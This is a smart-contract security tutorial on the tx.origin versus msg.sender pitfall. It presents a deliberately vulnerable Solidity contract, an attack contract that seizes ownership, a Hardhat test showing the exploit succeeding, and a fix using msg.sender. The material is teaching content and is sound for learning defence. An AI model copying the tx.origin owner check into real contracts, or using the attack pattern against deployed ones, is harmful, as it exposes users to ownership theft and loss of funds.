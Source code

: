 ```yaml
---
description: 🧠 tx.origin vs msg.sender
---
```


# tx.origin

**`tx.origin` ** is a global variable which returns the address that created the original transaction.

&#x20;It is kind of **similar** to **`msg.sender`**, but with an important caveat.&#x20;

We will learn how incorrect use of tx.origin could lead to security vulnerabilities in smart contracts.

### What is tx.origin?

**`tx.origin`** is a **global variable** which returns the address of the account which sent the transaction. Now you might be wondering then **what is `msg.sender`** 🤔.&#x20;

The difference is that **`tx.origin` refers to the original external account** (which is the user) that started the transaction and **`msg.sender` is the immediate account** that called the function and **it can be an external account or another contract calling the function.**

So for example, if User calls **Contract A**, which then calls **Contract B** within the same transaction, **`msg.sender`** will be equal to **`Contract A`** when checked from inside **`Contract B`**. However, **`tx.origin`** will be the ** `User` ** regardless of where you check it from.

#### What will happen?

There will be two smart contracts - **`Good.sol`** and **`Attack.sol`**.&#x20;

`Good.sol`. Initially the owner of `Good.sol` will be a good user.&#x20;

Using the attack function `Attack.sol` will be able to change the owner of `Good.sol` to itself.

### ⚒️ Contract

Note All of these commands should work smoothly . If you are on windows and face Errors Like **`Cannot read properties of null (reading 'pickAlgorithm')`** Try Clearing the NPM cache using **`npm cache clear --force`**.

**Setup a Hardhat project**

```shell
mkdir tx-origin
cd tx-origin
npm init --yes
npm install --save-dev hardhat @nomicfoundation/hardhat-toolbox

# bootstrap the hardhat project
npx hardhat
```

Make sure you select **`Create a Javascript Project`**

Create a new file inside the **`tx-origin/contracts`**directory and call it **`Good.sol`**

This is a simple version of **Ownable.sol**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

contract Good {
    address public owner;

    constructor() {
        owner = msg.sender;
    }

    function setOwner(address newOwner) public {
        require(tx.origin == owner, "Not owner");
        owner = newOwner;
    }
}
```

****

Create a new file inside the **`tx-origin/contracts`**directory and call it **`Attack.sol`**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

import "./Good.sol";

contract Attack {
    Good public good;

    constructor(address _good) {
        good = Good(_good);
    }

    function attack() public {
        good.setOwner(address(this));
    }
}
```

**``**

#### Writing the Test

Create a new file inside the **`.../test`**directory and call it **`attack.js`**

```javascript
const { expect } = require("chai");
const { ethers } = require("hardhat");

describe("tx.origin", function () {
  it("Attack.sol will be able to change the owner of Good.sol", async function () {
    // Get one address
    const [_, addr1] = await ethers.getSigners();

    // Deploy the good contract
    const Good = await ethers.getContractFactory("Good");
    const goodContract = await Good.connect(addr1).deploy();
    await goodContract.deployed();
    console.log("Good Contract's Address:", goodContract.address);

    // Deploy the Attack contract
    const Attack = await ethers.getContractFactory("Attack");
    const attackContract = await Attack.deploy(goodContract.address);
    await attackContract.deployed();
    console.log("Attack Contract's Address", attackContract.address);

    let tx = await attackContract.connect(addr1).attack();
    await tx.wait();

    // Now let's check if the current owner of Good.sol is actually Attack.sol
    expect(await goodContract.owner()).to.equal(attackContract.address);
  });
});
```

The attack will happen as follows, initially **`addr1`** will deploy **`Good.sol`** and will be the owner but the attacker will somehow fool the user who has the private key of **`addr1` ** to call the **`attack`** function with **`Attack.sol`.**

When the user calls **`attack` ** function with **`addr1`**, **`tx.origin` is set to `addr1`**. `attack` function further calls **`setOwner`** function of **`Good.sol`** which first checks if `tx.origin` is indeed the owner which is **`true` ** because the original transaction was indeed called by `addr1`. After verifying the owner, it sets the owner to **`Attack.sol`**

And thus attacker is successfully able to change the owner of `Good.sol` 🤯

#### Testing the attack

To run the test, in your terminal pointing to the root directory of this level execute the following command

```sh
npx hardhat test
```



### Real Life Example

While this may seem obvious to most of you, as `tx.origin` isn't something you see being used at all, some developers do make this mistake.&#x20;

You can read about the [THORChain Hack #2 here](https://rekt.news/thorchain-rekt2/) where users lost millions in $RUNE due to an attacker being able to get approvals on $RUNE token by sending a fake token to user's wallets, and approving that token for sale on Uniswap would transfer $RUNE from the user's wallet to the attacker's wallet because THORChain used **`tx.origin` for transfer checks instead of `msg.sender`.**

### 👮 Prevention

You should use **`msg.sender`** instead of **`tx.origin`** to not let this happen. There is almost never a good use case for **`tx.origin` ** except in very specific cases - and in those times, be VERY careful.

Example:

<pre class="language-solidity"><code class="lang-solidity">function setOwner(address newOwner) public {    
<strong>    require(msg.sender == owner, "Not owner" );    
</strong>    owner = newOwner;
}
</code></pre>
